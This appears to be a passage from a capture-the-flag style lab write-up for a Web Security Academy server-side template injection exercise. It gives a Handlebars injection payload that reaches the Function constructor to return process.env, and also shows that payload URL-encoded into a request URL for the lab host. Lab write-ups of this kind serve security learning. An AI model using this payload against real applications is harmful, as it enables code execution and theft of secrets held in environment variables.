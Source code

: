 Get process.env with:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return JSON.stringify(process.env);"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Url-encode it and get the content with https://0ab300360386552481b34d2700c600da.web-security-academy.net/?message=%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%4a%53%4f%4e%2e%73%74%72%69%6e%67%69%66%79%28%70%72%6f%63%65%73%73%2e%65%6e%76%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d:



![img](images/12%20-%20Server-side%20template%20injection%20in%20an%20unknown%20language%20with%20a%20documented%20exploit/5.png)
